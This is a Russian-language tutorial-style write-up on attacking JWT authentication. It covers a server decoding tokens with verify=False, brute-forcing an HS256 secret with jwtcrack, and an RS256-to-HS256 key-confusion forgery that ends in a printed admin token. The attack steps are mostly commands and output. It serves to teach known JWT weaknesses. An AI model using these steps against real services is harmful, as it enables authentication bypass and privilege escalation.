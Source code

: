 ```
	return render_template('index_login.html', isLoggedIn=isLoggedIn, result=result)
```
```
result = jwt.decode(session, key=jwt_secret, verify = False)
```
Установка параметра verify в значение False приводит к тому, что токен будет всегда приниматься. 

Взлом HS256 тупо брутом.  
```
$ ./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.r2JjnalFCyz14WuyIukEpocbfoNcO9HcV-28TUHgSvc qwertyuiopasdfghjklzxcvbnm
Secret is "secret"
```

Подмена ассиметричного шифрования RS на симметричное HS
```
	b64_public = base64.standard_b64encode(public).decode()
  ```
Так как сервер выдает публичный ключ, то мы можем его использовать для того чтобы обмануть механизм шифрования. Так как в методах не захардкожено, необходимое шифрование, мы может заставить сервер шифровать и расшифровывать сигнатуру токена с использованием симметричного шифрования по публичному ключу.
```
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDIfXNTOUNW9t6gH0OURcsbYu9f
AQIkL9fUxsIckicd67DIOyotPquMo5Ak0MJWjlirWkZnBZIyDoLkzr9a28KMhxzM
5aGvuuj5DyPBeQeJJz1Duimtw/OcbY9sUtNhQNrq2Ww2EMrjuTQXyG2Yaf6uNmlW
LB+v4AZ99OepLO+DpQIDAQAB
-----END PUBLIC KEY-----
```
Переведу его значение в hex и изменив данные в поле header (меняется шифрования с асимметрии на симметрию поле alg) и payload (добавлю в токен права админа потому что почему бы и нет) и подпишу этим публичным ключом вновь собраннуй json.
```
 "тело токена" | openssl dgst -sha256 -mac HMAC -macopt hexkey:ключвхексе
```
После чего верну получившиеся значение подписи в формат сигнатуры base64UrlEncode
```
 base64.urlsafe_b64encode(binascii.a2b_hex('db3a1b760eec81e029704691f6780c4d1653d5d91688c24e59891e97342ee59f')).replace('=','')
```
В итоге получаем токен админа, прошедший проверку ассиметричной подписи.
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6dHJ1ZX0.IFQI6Zh9Gja_d48CKHo80SZonepddPiemcz_l8WyfFI
```

https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/january/jwt-attack-walk-through/

### Инструменты
[PyJWT library](https://github.com/jpadilla/pyjwt)  
Burp suit

